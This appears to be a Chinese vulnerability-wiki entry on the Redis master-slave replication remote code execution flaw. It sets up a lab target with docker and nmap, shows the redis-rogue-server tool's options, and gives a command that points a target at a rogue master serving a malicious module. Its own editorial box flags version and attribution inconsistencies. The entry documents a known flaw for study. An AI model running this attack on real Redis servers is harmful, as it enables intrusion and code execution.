


# Redis 小于5.0.5 主从复制 RCE

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：无需认证或已取得适当命令权限、目标可回连恶意主机、兼容模块.so
- 证据范围：与462同工具README节选及465同技术链，不能仅6379端口开放就认定脆弱。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 标题<5.0.5与影响<=5.0.5矛盾，缺4.0模块引入下界
- 2019WCTF故事链接到2018Zeronights材料，时间/出处需标不同场次
- 第三方浮动latest实验镜像未明确版本，日志digest不能证明后来pull仍相同
- --rhost与--lhost同IP需说明本地实验/不同机器，否则回连方向易错
- 没有模块编译步骤及原主从数据恢复

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

在2019年7月7日结束的WCTF2019 Final上，LC/BC的成员Pavel Toporkov在分享会上介绍了一种关于redis新版本的RCE利用方式，比起以前的利用方式来说，这种利用方式更为通用，危害也更大

[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

## 漏洞影响

```
Redis <= 5.0.5
```

## 环境搭建

```shell
docker pull damonevking/redis5.0 
docker run -p 6379:6379 -d damonevking/redis5.0 redis-server
```

nmap扫描一下6379端口开放即为搭建成功

```shell
root@kali:~/桌面# docker pull damonevking/redis5.0 
Using default tag: latest

latest: Pulling from damonevking/redis5.0
fc7181108d40: Pull complete 
3e0ac67cad82: Pull complete 
6ee495cb7235: Pull complete 
9f7206d08b9d: Pull complete 
a8354ef8cccb: Pull complete 
53afb10d81c2: Pull complete 
Digest: sha256:adcf62f378efe1187d2f72c6f0ecdf86ab2173a9e1c3c9f4fe4bb89060f5362f
Status: Downloaded newer image for damonevking/redis5.0:latest
docker.io/damonevking/redis5.0:latest
root@kali:~/桌面# docker run -p 6379:6379 -d damonevking/redis5.0 redis-server
1275aa9c6c8f8ad0b6c8e58e609be6681acedec301b5593f7e8b0bd65f7fad12
root@kali:~/桌面# nmap 127.0.0.1 -p 6379
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-08 21:47 CST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000099s latency).

PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
```

## 漏洞复现

关于漏洞原理请查看[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

漏洞利用脚本: [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```shell
➜ ./redis-rogue-server.py -h
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

Usage: redis-rogue-server.py [options]

Options:
  -h, --help           show this help message and exit
  --rhost=REMOTE_HOST  target host
  --rport=REMOTE_PORT  target redis port, default 6379
  --lhost=LOCAL_HOST   rogue server ip
  --lport=LOCAL_PORT   rogue server listen port, default 21000
  --exp=EXP_FILE       Redis Module to load, default exp.so
  -v, --verbose        Show full data stream
Example
```

```shell
python3 redis-rogue-server.py --rhost 192.168.51.146 --lhost 192.168.51.146 --exp=exp.so
```







---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
